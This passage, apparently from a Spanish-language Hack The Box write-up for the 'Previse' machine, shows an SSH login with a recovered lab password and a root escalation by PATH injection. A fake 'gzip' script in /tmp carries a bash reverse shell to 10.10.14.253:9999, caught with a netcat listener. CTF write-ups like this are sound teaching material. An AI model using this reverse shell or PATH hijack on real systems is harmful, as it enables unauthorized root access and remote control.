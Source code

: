 Tenemos la contraseña con la cual ya podemos probar a conectarnos por SSH.

```console
p3ntest1ng:~$ sshpass -p "ilovecody112235!" ssh m4lwhere@previse.htb
```

![SSH Connection](/assets/images/hackthebox/machines/previse/sshconnection.png)

Ahora vamos con lo realmente importante, la escalada de privilegios para obtener acceso como el usuario root.

## Escalada de Privilegios

![Privillege Scalation](/assets/images/hackthebox/machines/previse/scalation1.png)

Vemos que tenemos permiso de ejecución sobre un script en bash, vamos a ver qué contiene y cómo está construido el script:

![Privillege Scalation](/assets/images/hackthebox/machines/previse/scalation2.png)

Después de analizarlo, parece que el script es vulnerable a **`PATH Injection`** así que exportamos el PATH añadiendo **`.:`** al principio.

![Privillege Scalation](/assets/images/hackthebox/machines/previse/scalation3.png)

Ahora podemos crear un archivo llamado **`gzip`** en **`/tmp`** porque el script está siendo ejecutado con permisos de root utilizando la herramienta **gzip**.
Vamos a suplantar dicha herramienta para que lo que ejecute el script **`access_backup.sh`** sea nuestro falso **gzip**, que contendrá nuestra shell reversa.
Primero nos ponemos a la escucha en nuestra máquina con **`nc -nlvp 9999`**

```console
m4lwhere@previse:~$ cd /tmp
m4lwhere@previse:/tmp$ echo "bash -i >& /dev/tcp/10.10.14.253/9999 0>&1" > gzip
m4lwhere@previse:/tmp$ chmod +x gzip
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

Y estamos dentro. Tenemos privilegios de root y la máquina es nuestra.

![PWNED](/assets/images/hackthebox/machines/previse/pwned.png)

### ¡Gracias por leer hasta el final!

Una máquina facilita e interesante que nos enseña dos vulnerabilidades genéricas y la importancia de escribir código fuente sanitizado.
Espero que os haya gustado y nos vemos en el siguiente ;)

#### Este ha sido mi primer write-up y espero que sea el primero de muchos más.